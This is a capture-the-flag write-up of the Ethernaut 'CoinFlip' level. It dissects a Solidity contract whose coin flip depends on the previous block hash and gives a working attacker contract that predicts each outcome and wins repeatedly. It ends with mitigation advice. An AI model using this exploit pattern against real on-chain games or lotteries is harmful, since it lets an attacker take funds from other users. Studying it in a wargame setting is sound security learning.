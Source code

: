 ```yaml
---
title: "4. CoinFlip"
tags:
- writeups
---
```


- used [mythrill](https://github.com/ConsenSys/mythril) for static analysis on EVM bytecode: `myth a CoinFlip.sol`
	- make sure you store your contracts locally *(`coinFlip.sol` & dependencies: `SafeMath.sol`)* 
	- control flow decision is made based on the block hash of a previous block
- we might be able to guess every time by having control over how the `blockValue` is determined, so let's look @ the contract

## Disecting the contract
```solidity
// SPDX-License-Identifier: MIT
pragma solidity ^0.8.0;

import "@openzeppelin/contracts/utils/math/SafeMath.sol";

contract CoinFlip {

    using SafeMath for uint256;
    uint256 public consecutiveWins;
    uint256 lastHash;
    // it's actually 2^255
    uint256 FACTOR = 57896044618658097711785492504343953926634992332820282019728792003956564819968;

    // Setup the counter to 0
    constructor() public {
      consecutiveWins = 0;
    }


    // give a bool, get bool back
    function flip(bool _guess) public returns (bool) {
      // block.number: the curr block nr
      // blockhash(): hash of the given block — only for 256 most recent blocks
      // look @ the nr of the prev block, get hash & cast to uint256
      uint256 blockValue = uint256(blockhash(block.number.sub(1)));


      // check for multiple txs  on the same block  
      // and let through only the first one
      if (lastHash == blockValue) {
        // undo all state changes, but handled 
        // differently than an `invalid opcode`
        //   - allows youo to return value
        //   - or refund remaining gas to caller
        revert();
      }
      // set the lastHash based on blockValue
      // ! it's entirely dependent on the block tx is included on
      lastHash = blockValue;
      
      // btw: 3 / 4 = 0 in solidity
      // so we should get only 1 or 0
      uint256 coinFlip = blockValue.div(FACTOR);
      bool side = coinFlip == 1 ? true : false;

      // compare pseudo random flip result with
      // user's guess & adjust wins accordingly
      if (side == _guess) {
        consecutiveWins++;
        return true;
      } else {
        consecutiveWins = 0;
        return false;
      }
    }
}
```

## Exploitation
**Every single transaction in the same block can determine the same `blockValue` => evaluate the *coinflip* result**. 

How we could do that ? As always the best way to attack a smart contract is with another smart contract :))
```solidity
// SPDX-License-Identifier: MIT
pragma solidity ^0.8.0;

import "@openzeppelin/contracts/utils/math/SafeMath.sol";
using SafeMath for uint256;

contract CoinFlip {
	...
}

contract angryApe {
  CoinFlip public flipper; // instance of target contract
  uint256 FACTOR = 57896044618658097711785492504343953926634992332820282019728792003956564819968;
  bool public guess; // make guess accesible

  // init connection to the target contract
  constructor() {
    flipper = CoinFlip(0x37b29A2b9d16b4d005EfcEce415e555C5FD2cf71);
  }

  // sometimes you can cheat
  function cheat() public returns(bool) {
    // calculate blockValue, flip & get your guss
    uint256 blockValue = uint256(blockhash(block.number.sub(1)));
    uint256 flip       = blockValue.div(FACTOR);
    guess   = flip == 1 ? true : false;

    // send to target contract
    flipper.flip(guess);
    return true;
  }
}
```

The only thing left to be done is to spam the `cheat()` function
> *is there any way to automate this?*


## Takeaways
>  "This property of Proof of Work based consensus is one of the greatest obstacles to achieving truly random outcomes on the blockchain. Think on that before building a decentralized lotto 🤑"
- generating random numbers in solidity can be tricky, since everything in smart contracts i publicly visible *(including the local `private` vars)*
- whenever developing a smart contract keep in mind that miners also have control over things like: blockhashes, timestamps & whether to include certain txs
### Mitigation
- to get cryptographically proven random numbers, you can use [Chainlink VRF](https://docs.chain.link/docs/get-a-random-number), which uses an oracle, the LINK token, and an on-chain contract to verify that the number is truly random.
- other options include using Bitcoin block headers *(verified through [BTC Relay](http://btcrelay.org/))*, [RANDAO](https://github.com/randao/randao), or [Oraclize](http://www.oraclize.it/)).

## See Also
- [[Ethernaut Wargame]]